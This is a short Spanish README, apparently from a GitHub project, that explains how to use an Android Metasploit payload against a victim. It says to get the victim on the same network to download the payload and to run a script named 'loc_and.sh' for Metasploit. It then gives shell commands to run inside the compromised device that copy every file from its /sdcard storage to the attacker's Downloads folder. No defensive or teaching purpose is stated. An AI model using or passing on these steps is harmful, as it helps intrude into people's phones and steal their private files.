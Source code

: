 # Configuracion

Para ejecutar el exploid en local, es necesario estar conectados en la misam red, hacer que se descargen el playload, y ejecutar "loc_and.sh" para metasploit.

Una vez dentro de nuestra victima ejecutamos

```shell
    cd /sdcard
    download * $HOME/Descargas
```
